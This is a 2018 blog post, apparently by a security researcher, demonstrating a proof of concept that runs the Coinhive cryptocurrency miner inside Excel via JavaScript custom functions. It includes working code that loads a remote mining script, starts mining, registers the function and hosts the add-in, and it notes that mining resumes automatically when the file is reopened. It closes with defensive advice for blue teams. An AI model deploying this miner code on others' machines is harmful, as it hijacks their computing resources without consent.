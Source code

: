```yaml
---
layout: single
title:  "JavaScript Coinhive in Excel"
date:   2018-05-08 01:29:21 -0600
categories: POC JAVASCRIPT MICROSOFT OFFICE
excerpt: This code does have persistence, if you save the XLSX sheet now and reopen it, your PC will instantly start to mine again without any user interaction.
---
```


## Timeline:

This morning, I read that Microsoft announced that they have added JavaScript functions into the insiders preview build of Excel.

[https://www.bleepingcomputer.com/news/microsoft/microsoft-adds-support-for-javascript-functions-in-excel/](https://www.bleepingcomputer.com/news/microsoft/microsoft-adds-support-for-javascript-functions-in-excel/)

Like most of you reading this, I couldn't wait for a POC of coin mining within Excel using the new JavaScript functions.

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">I cannot wait for the first cryptocurrency miner in Excel</p>&mdash; Chase Dardaman (@CharlesDardaman) <a href="https://twitter.com/CharlesDardaman/status/993874412486176768?ref_src=twsrc%5Etfw">May 8, 2018</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

I even went as far as to offer to a small bounty to anyone at Dallas Hackers who could build and present on it at next month's meetup.

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">I&#39;ll buy a beer to whoever presents cryptocurrency mining in Excel at the next <a href="https://twitter.com/Dallas_Hackers?ref_src=twsrc%5Etfw">@Dallas_Hackers</a></p>&mdash; Chase Dardaman (@CharlesDardaman) <a href="https://twitter.com/CharlesDardaman/status/993877218270105601?ref_src=twsrc%5Etfw">May 8, 2018</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

After making this offer, I started to read Microsoft's actual documentation on how to implement JS within Excel, and decided I could do this myself. I then signed up for an account on coinhive.com and started to download the preview build of Excel for macOS. After over an hour of downloading the preview on my 5mb down internet, I was able to get my hands on it and get Coinhive running within the newest preview build of Excel.

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">GOT IT! <a href="https://twitter.com/hashtag/coinhive?src=hash&amp;ref_src=twsrc%5Etfw">#coinhive</a> <a href="https://twitter.com/hashtag/Excel?src=hash&amp;ref_src=twsrc%5Etfw">#Excel</a> <a href="https://twitter.com/hashtag/Microsoft?src=hash&amp;ref_src=twsrc%5Etfw">#Microsoft</a> <a href="https://twitter.com/hashtag/Malware?src=hash&amp;ref_src=twsrc%5Etfw">#Malware</a> <a href="https://t.co/QvHkgnGFkQ">pic.twitter.com/QvHkgnGFkQ</a></p>&mdash; Chase Dardaman (@CharlesDardaman) <a href="https://twitter.com/CharlesDardaman/status/993912675804614657?ref_src=twsrc%5Etfw">May 8, 2018</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>


## Proof of Concept:

In order to run Coinhive in Excel, I followed Microsoft's official documentation and just added my own function. There are three steps that Microsoft lists in order to get JS running:


1. Install Office (build 9325 on Windows or 13.329 on Mac) and join the Office Insider program. (Note that it isn't enough just to get the latest build; the feature will be disabled on any build until you join the Insider program)
2. Clone the Excel-Custom-Functions repo and follow the instructions in the README.md to start the add-in in Excel, make changes in the code, and debug.
3. Type =CONTOSO.ADD42(1,2) into any cell, and press Enter to run the custom function.

https://docs.microsoft.com/en-us/office/dev/add-ins/excel/custom-functions-overview The first step is easy, just select Insider program on the updates menu for Microsoft Office and allow it to update. This gives Excel the ability to run JS functions.

![1]({{ site.url }}/assets/js_coinhive_in_excel/1.png)

Step two is where the magic happens. Here you go Microsoft's GitHub and download the four important files:

* customfunctions.html
* customfunctions.js
* customfunctions.json
* customfunctions.xml

Once you get these files, you will need to make a couple of edits in order to add in the Coinhive features and code from their documentation. For the HTML file, you need to add the following no auth script tag into the head, so that Coinhive can be called later:

```
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
```

For the JS file, add in the following function which will then be called from within the Excel cell:

```
function MINER(){
    var miner = new CoinHive.Anonymous('Your Public Coinhive Key goes here.', {throttle: 0.7});

    if (!miner.isMobile() && !miner.didOptOut(14400)) {
        miner.start();
    }
}
```

In the JSON file, we add data about our new function, MINER, so that Excel can load it.

```
        {
            "name": "MINER",
            "description": "MINER MINER",
            "helpUrl": "http://dev.office.com",
            "result": {
                "type": "number",
                "dimensionality": "scalar"
            },
            "parameters": [],
            "options": {
                "sync": false
            }
        },
```

After editing these three files, you must host them on a web server. I hosted them on a linux VM running Apache, this allowed me to easily hit the files locally.

Lastly, we edit the XML file by adding in the web server IP address.
```
...
<SourceLocation DefaultValue="http://192.168.201.140/customfunctions.html"/>
...
            <bt:Urls>
                <bt:Url id="JSON-URL" DefaultValue="http://192.168.201.140/customfunctions.json" />
                <bt:Url id="JS-URL" DefaultValue="http://192.168.201.140/customfunctions.js" />
                <bt:Url id="HTML-URL" DefaultValue="http://192.168.201.140/customfunctions.html" />
            </bt:Urls>
...
```
This XML file is the manifest file that currently must be added into Excel for JS to work. I am under the assumption that this will change by the time JS becomes fully supported in Excel, as most users will not be savvy enough to add in the functionality themselves. In order to do this on macOS, I followed documents on Microsoft's Blog, which basically tells you to copy the XML file into the following location:
```
/Users/<username>/Library/Containers/com.microsoft.Excel/Data/documents/wef/
```
With all of these files in place and hosted, you're ready for step three. Open up a new notebook in Excel, and click Insert-> My Add-ins, you should now be able to see that your new functions have been added.

![2]({{ site.url }}/assets/js_coinhive_in_excel/2.png)

Now, simply type the following into any cell on the sheet and hit enter:

```
=CONTOSO.MINER()
```

Your PC will now be mining Monero for you. This code does have persistence, if you save the XLSX sheet now and reopen it, your PC will instantly start to mine again without any user interaction.

## Summary:

Microsoft has, for some reason, decided that the business world needs yet another scripting language running within office. Currently, it takes some effort to get JS running within Excel, but I suspect that the difficultly will drop drastically as we near JS moving into the full Office build. Once that has been completed, I plan to take another look at this new attack vector.

If you are a Blue Teamer, like me, wondering how to defend against such an attack try to get in front of your IT team and have JavaScript disabled whenever it hits the full Office build. We do not currently know what controls Microsoft will put around JS use, but it will probably be better to just block it before your company becomes dependent upon it.

If you have any questions regarding this POC please hit me up on Twitter, I'll be more than happy to answer them.

